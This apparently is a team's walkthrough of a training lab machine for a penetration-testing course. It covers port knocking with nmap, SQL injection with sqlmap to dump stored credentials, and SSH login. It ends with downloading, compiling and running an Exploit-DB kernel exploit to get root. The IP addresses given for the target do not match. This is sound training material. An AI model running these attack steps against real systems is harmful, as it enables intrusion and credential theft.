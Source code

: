 # DEPI Machine Walkthrough
 
 
 
 This is a report of a penetration testing task we completed during the DEPI Training program. The training, sponsored by the National Telecommunications Regulatory Authority (NTRA) of Egypt, focused on the Vulnerability Analysis/Penetration Testing Track.
 
 ## Team Members

 1. Mohamed Mamdouh Abdulhamid
 2. Ahmed Amin Elkomy
 3. Zeyad Ashraf Mahmoud
 4. Mostafa Moataz
 
 ## Walkthrough
 
 
 ### Step 1: Discovering the Target IP
 
 1. Used the **MAC Address** to find the IP address with `netdiscover`.
 
    - **Target IP**: `192.168.207.133`
 
 
 
 ### Step 2: Port Scanning
 
 - Performed an Nmap scan: `nmap -sC -sV -p- <target_ip>`
 
   - Found only SSH port open.
 
 
 
 ### Step 3: Brute-Force Attempts
 
 - Tried logging in with username `smeagol` but without success.
 
 - Attempted brute-forcing the password using **Hydra**, but it failed.
 
 
 
 ### Step 4: Port Knocking
 
 - Identified a hint: "Knock Friend To Enter. Easy as 1,2,3."
 
 - Used Nmap to send port knocking sequences:
 
  ```bash
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 1 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 2 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 3 192.168.207.133
  ```
 
 
 ### Step 5: Web Application Enumeration
 
 1. Accessed the service through a browser but found no useful information.
 
 2. Checked the `/robots.txt` file and inspected the page source.
 
 3. Discovered a **Base64-encoded path** in the source code. After decoding it twice, found the path:
 
                 http://10.10.207.133:1337/978345210/index.php
 
 4. Visited the path and found a login page.
 
 
 
 ### Step 6: SQL Injection
 
 1. Used **Burp Suite** to intercept the login request and saved it as `post.txt`.
 
 2. Tested the form for SQL Injection vulnerabilities using **SQLmap**:
 
              sqlmap -r post.txt -p username
 
 3. Then Extracted the smeagol username and password.
 
             sqlmap -r post.txt -p username -D Webapp -T Users --dump
 
 
 
 ### Step 7: SSH Access and Privilege Escalation
 
 1. Logged into the machine via SSH using the credentials obtained.
 
 2. Attempted to access the /root directory but was unauthorized.
 
 3. Gathered OS and kernel information:
 
          uname -a
 
 4. Used searchsploit to find exploits for the kernel version:
 
          searchsploit ubuntu 14.04
 
 5. Selected and downloaded an exploit (39166.c) from Exploit-DB:
 
        wget https://www.exploit-db.com/download/39166
 
 6. Compiled and executed the exploit:
 
        gcc 39166.c -o exploit
 
        chmod +x exploit
 
        ./exploit
 
 7. Successfully gained root privileges and accessed the flag in the /root directory. 

